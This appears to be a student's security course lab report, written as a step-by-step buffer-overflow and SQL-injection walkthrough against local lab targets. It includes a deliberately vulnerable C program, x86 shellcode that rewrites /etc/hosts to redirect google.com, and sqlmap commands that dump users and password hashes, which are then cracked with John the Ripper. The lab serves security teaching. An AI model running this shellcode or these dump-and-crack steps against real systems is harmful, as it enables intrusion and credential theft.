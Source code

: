 # Lab Report #1: Vulnerability Exploitation and Database Attack
**Student:** Nguyen Nhat Quang  
**ID:** 22110065  
**Course:** INSE330380E_24_1_02FIE  

## Task 1: Software Buffer Overflow Attack

### Question 1: Stack Frame of the Main Function
Stackframe of the main function:
![image](img/stackframe.png)
### Step 1: Create the Vulnerable C Program
To begin, we will create a simple C program that contains a buffer overflow vulnerability.

```bash
# Create vulnerable.c
nano vulnerable.c
```

Copy and paste the following code into `vulnerable.c`:

```c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
    char buffer[16];
    strcpy(buffer, argv[1]);
    return 0;
}
```

### Step 2: Compile the Vulnerable Program
Compile the program with security features disabled to facilitate the buffer overflow attack.

```bash
# Compile with security features disabled
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vulnerable vulnerable.c
```

### Step 3: Create the Shellcode Assembly
Next, we will write our shellcode in assembly language.

```bash
# Create shellcode.asm
nano shellcode.asm
```

Copy and paste the following assembly code into `shellcode.asm`:

```nasm
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ; /etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ; permissions
    int 0x80            ; syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data ; jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ; length of the string
    pop edx
    int 0x80            ; syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ; syscall to close the file

    push 0x1
    pop eax
    int 0x80            ; syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

### Step 4: Compile the Shellcode
Now we will assemble and link our shellcode.

```bash
# Assemble the shellcode
nasm -f elf32 shellcode.asm -o shellcode.o

# Link the object file
ld -m elf_i386 shellcode.o -o shellcode
```

### Step 5: Extract Raw Shellcode Bytes
Finally, we will extract the raw bytes of our shellcode and save them to a file.

```bash
# Extract shellcode bytes and save to file
objdump -d shellcode | grep '[0-9a-f]:' | cut -f2 -d: | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s > shellcode.txt
```

---

## Task 2: SQL Injection Attack on Vulnerable Application Database

### Setup Instructions:
- Start the Docker container for SQLi.
Docker Setup

### Install SQLMap:
To install SQLMap, run the following commands:

```bash
sudo apt update
sudo apt install python3 python3-pip
sudo pip3 install sqlmap
```
SQLMap Installation

### Question 1: Retrieve Information About Available Databases

**Answer:**

![image](img/Install%20bwapp.png)
![image](img/SQLMAP.png)


1. Open your web browser and navigate to: `http://localhost:8025/install.php`.
2. Complete the installation process and log in using:
   - **Username:** bee  
   - **Password:** bug  
3. In the bWapp menu, select "A1 - SQL Injection" from the dropdown.
4. Execute SQLMap targeting the vulnerable page:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" --dbs
```

### Question 2: Retrieve Tables and User Information

**Answer:**
- After identifying available databases, list tables from a specific database:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" -D db_name --tables
```

- To dump user information from a relevant table:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" -D db_name -T users --dump
```

### Question 3: Use John the Ripper to Crack Passwords of Database Users

**Answer:**
1. Export hashed passwords:

```bash
sqlmap -u "http://localhost/sqli_1.php?title=1" -D db_name -T users --dump --passwords 
```

2. Save the hashes to a file named `hashes.txt`.
3. Use John the Ripper to attempt cracking these password hashes:

```bash
john --format=raw-md5 hashes.txt 
```
